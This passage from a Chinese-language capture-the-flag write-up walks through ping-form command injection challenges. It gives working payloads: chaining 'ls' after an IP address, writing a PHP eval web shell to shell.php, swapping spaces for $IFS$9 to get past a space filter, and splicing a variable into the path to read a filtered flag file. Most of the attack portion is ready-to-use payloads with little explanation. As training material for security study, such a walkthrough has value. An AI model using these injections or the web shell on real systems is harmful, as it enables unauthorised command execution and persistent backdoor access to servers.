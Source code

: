 ```
127.0.0.1|ls
```

![image-20210426213538938](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210426213538938.png)

可以执行那就试试写木马

```
|echo "<?php @eval(\$_POST[cmd]);?>">shell.php
```

![image-20210426213634052](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210426213634052.png)

#### ping3

这道题把空格给过滤掉了

我这里用$IFS$9代替了空格

```
127.0.0.1$IFS$9&&$IFS$9find$IFS$9/$IFS$9-name$IFS$9"*.txt"
```

![image-20210426213700647](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210426213700647.png)

```
127.0.0.1$IFS$9&&$IFS$9find$IFS$9/$IFS$9-name$IFS$9"f*"
//127.0.0.1 && find / -name "f*"
```

![image-20210426213742872](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210426213742872.png)

找到了个flag在根目录下

![image-20210426213800460](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210426213800460.png)

但是写了过滤，读不了

那就用函数拼接试试

```
127.0.0.1|a=g;cat$IFS$9/fla$a
```

很奇怪什么都不显示

![image-20201208225426976](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20201208225426976.png)

但是如果换成

```
127.0.0.1&a=g;cat$IFS$9/fla$a
```

也就是把|换成&直接就能显示出flag了

![image-20201208225407495](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20201208225407495.png)
